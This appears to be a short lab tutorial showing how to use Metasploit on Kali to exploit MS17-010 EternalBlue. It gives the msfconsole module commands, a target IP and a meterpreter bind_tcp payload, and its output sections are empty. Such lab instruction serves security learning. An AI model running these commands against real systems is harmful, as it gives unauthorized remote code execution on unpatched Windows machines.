


a) Use “Metasploit” tool on your Kali Machine to search in the database.
$ msfconsole
Output: 
b) Search an exploit.
$ msf5 > search ms17-0107
Output: 
We're going to use “exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption”
c) Introduce the following commands in “msfconsole shell”.
Command: use exploit/windows/smb/ms17_010_eternalblue Command: show options Command: set RHOSTS 192.168.12.43 Command: set payload windows/x64/meterpreter/bind_tcp Command: exploit